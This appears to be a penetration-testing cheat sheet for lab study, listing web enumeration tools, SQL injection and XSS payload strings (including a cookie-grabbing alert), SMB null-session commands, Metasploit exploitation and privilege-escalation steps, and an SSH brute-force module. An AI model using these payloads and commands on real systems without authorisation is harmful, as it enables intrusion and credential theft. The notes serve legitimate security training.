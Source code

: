 http/https
- look at server service, and content managmenet service.
- run dirbuster/dirb to enumerate.
--/usr/share/wordlists/dirb/common.txt
--http://demo.ine.local:80/robots.txt
- look for XSS or SQLi. Use burpsuite to analyze/test "easily". Manually test and use xss/sqlmap.
- SLQi: `' OR 1=1` `and 1=1; -- -` `or ‘a’=’a’; -- -`
- XSS: `<script>alert (1)</script>` `<i>some text</i>` `<script>alert(document.cookie)</script>`
- browse the website.
- feroxbuster
- sublist3r
- dirbuster
- gobuster `dir -u http://10.10.10.160 -w /usr/share/wordlists/dirb/common.txt -t 16`
- `ffuf -w wordlist.txt -u http://example.com/FUZZ`
- use the "cookie editor" addon in Firefox.

netbios
Some commands:
```bash
nbtstat -A ipaddress
NET VIEW ipaddress
smbclient -L //ipaddress -N
smbclient -L //ipaddress
nmblookup -A //ipaddress
enum4linux -a //ipaddress
smbmap -H //ipaddress
enum4linux -d -S ipaddress
smbclient //ipaddress/public -N
NET USE \\IP\IPC$ '' /U:''
NET USE \\IP\C$ '' /U:''
WINFO IP -n
```

smb
- null session
- smbclient `smbclient -L //ip` `smbclient //ip/share -N`
- enum4linux `enum4linux -a ip_address`
- nmap scripts `nmap --script *smb* --script-args=unsafe=1 ipaddress`

sql
- null session using smbclient.
- sqlmap
- nmap scripts
- mysql `mysql --user=root --port=13306 -p -h ol-db-ip`

#### Exploitation
##### Metasploit/Meterpreter
```
search exploit
use exploit#
showoptions Check ALL parameters everytime. LHOST has to be on the same subnet.
set OPTION optionhere
exploit
meterpreter shell>getsystem
meterpreter shell>shell
```
SSH Bruteforcing using metasploit:
```
use auxiliary/scanner/ssh/ssh_login
show options
set rhosts 10.10.10.133
set user_file /usr/share/ncrack/minimal.usr
set pass_file /usr/share/ncrack/minimal.usr
set verbose true
run
```